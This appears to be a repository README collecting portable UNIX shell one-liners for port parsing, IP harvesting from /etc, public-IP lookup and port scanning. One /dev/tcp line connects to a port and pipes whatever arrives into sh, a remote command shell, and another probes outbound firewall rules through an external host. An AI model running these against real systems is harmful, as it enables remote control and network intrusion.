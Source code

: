 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment.

## Universal Oneliners

Parse listening ports on /proc/net/tcp:

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do bc <<< "obase=10; ibase=16; $i"; done | sort -un
```

Get all IP addresses in /etc/:

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

## /dev/tcp (requires bash)

Connect to a port and execute the command received:

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port:

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address:

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports:

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```
